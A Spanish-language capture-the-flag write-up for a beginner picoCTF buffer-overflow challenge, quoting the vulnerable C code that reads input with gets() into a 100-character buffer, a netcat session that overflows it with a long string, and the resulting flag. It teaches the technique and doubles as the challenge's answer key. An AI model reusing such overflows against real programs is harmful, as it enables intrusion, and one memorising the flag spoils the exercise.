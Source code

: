 ## Descripción

Smash the stackLet's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/173/vuln). You can view source [here](https://artifacts.picoctf.net/c/173/vuln.c). And connect with it using:`nc saturn.picoctf.net 51532`

## Pistas

1. How can you trigger the flag to print?
2. If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.
3. Run `man gets` and read the BUGS section. How many characters can the program really read?

## Solución

```python()
1. Analizamos el código fuente.
2. Encontramos las siguientes instrucciones:
printf("Input: ");
fflush(stdout);
char buf1[100];
gets(buf1); 
vuln(buf1);
printf("The program will exit now\n");
3. Analizando lo anterior, vemos como lo que se introduce por medio de la terminal se guarda en un arreglo de 100 caracteres, por lo que ahí hay una bulneravidad.
4. Debido a que no hay un control de errores, podemos introduccir más caracteres de los que se aceptan.
5. Introducimos muchos caracteres:

└─$ nc saturn.picoctf.net 51532

Input: 0000000000000000000000000000000000000000000000000000000000000000
picoCTF{ov3rfl0ws_ar3nt_that_bad_90d2bb58}
6. Al romperse esta cantidad, se nos muestra la bandera.

```

## Bandera

picoCTF{ov3rfl0ws_ar3nt_that_bad_90d2bb58}

## Notas adicionales